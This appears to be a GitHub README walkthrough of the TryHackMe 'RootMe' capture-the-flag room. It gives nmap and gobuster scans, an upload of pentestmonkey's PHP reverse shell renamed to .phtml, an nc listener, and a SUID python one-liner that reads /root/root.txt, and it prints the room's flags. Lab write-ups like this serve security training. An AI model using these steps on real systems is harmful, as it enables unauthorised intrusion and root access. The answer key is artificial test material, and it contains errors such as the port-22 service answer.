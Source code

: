 # RootMe1
![root](https://user-images.githubusercontent.com/32848915/196031503-cb04f77b-c55a-4296-8bf2-9f24b0b1196f.PNG)

🔴️Task 2:
	⚠️Scan the machine, how many ports are open?
		nmap -sC -sV -oN 10.10.188.190
			==> answer : 2
			
	⚠️What version of Apache is running?
		==> answer : 2.4.29
		
	⚠️What service is running on port 22?
		==> answer : 22
		
	⚠️What is the hidden directory??
		obuster dir -u http://10.10.188.190  -w /usr/share/dirbuster/wordlists directory-list-2.3-medium.txt
		==> answer : /panel/
		

🔴️Task 3: Getting a shell

	⚠️Find a form to upload and get a reverse shell, and find the flag?
		step1:
			git clone https://github.com/pentestmonkey/php-reverse-shell.git
			chmod +x *
			
		step2:
			git clone https://github.com/pentestmonkey/php-reverse-shell.git
			mv php-reverse-shell.php php_reverse_shell.phtml
			
		nc -lvnp 4444
			$ whoami
			?www-data
			cd /var/www
			cat user.txt
				THM{y0u_g0t_a_sh3ll}
	
🔴️Task4 : Privilege escalation
	⚠️ Search for files with SUID permission, which file is weird?
		find / -perm -u=s -type f 2>/dev/null
			/usr/bin/python
			
	⚠️ Find a form to escalate your privileges:
		
	
	⚠️ root.txt
		/usr/bin/python -c 'print(open("/root/root.txt").read())'
    		cat /root/root.txt
			==> THM{pr1v1l3g3_3sc4l4t10n}
    
    
   
  
